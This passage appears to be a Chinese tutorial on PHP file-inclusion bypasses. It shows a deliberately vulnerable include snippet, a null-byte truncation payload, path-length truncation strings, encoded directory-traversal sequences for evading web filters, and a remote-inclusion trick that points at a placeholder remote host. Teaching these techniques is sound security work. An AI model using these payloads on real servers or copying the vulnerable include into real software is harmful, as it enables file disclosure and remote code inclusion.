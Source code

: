 ```
<?php
include($_GET['a'].'.php')
?>
```

这里固定了后缀名为php，可以使用截断的方式来访问我们想要的文件。

```
?a=info.php%00
```

%00 会被解析为0x00，所以导致截断的发生 我们通过截断成功的绕过了后缀限制

### 路径长度截断

php版本小于5.3.10

文件路径有长度限制，目录字符串在Windows下256字节、Linux下4096字节时，会达到最大值，最大值之后的字符被丢弃。

```
././././././././././././abc..........
//////////////////abc.........
../1/abc../1/abc../1/abc........
```

就是在后面接很多个.，让后面的后缀抛弃掉。

### 目录遍历

可以使用../../../这样的方式来返回到上层目录中，这种方式又被称为”目录遍历(Path Traversal)”。常见的目录遍历漏洞，还可以通过不同的编码方式来绕过一些服务器端的防御逻辑(WAF) ：

```
%2e%2e%2f    ->    ../
%2e%2e/     ->    ../
..%2f     ->    ../
%2e%2e%5c    ->    ..\
%2e%2e%\    ->    ..\
..%5c     ->    ..\
%252e%252e%255c    ->    ..\
..%255c     ->    ..\
```

### URL绕过

假设服务器后端给我们传入的文件加了指定的后面的内容，可以使用以下的方法进行绕过，假设后端给传入的内容拼接上/test/test.php

#### query（?）

```
?file=http://remoteaddr/remoteinfo.txt?
```

则包含的文件为 [http://remoteaddr/remoteinfo.txt?/test/test.php](http://remoteaddr/remoteinfo.txt?/test/test.php)

问号后面的部分/test/test.php，也就是指定的后缀被当作query从而被绕过。
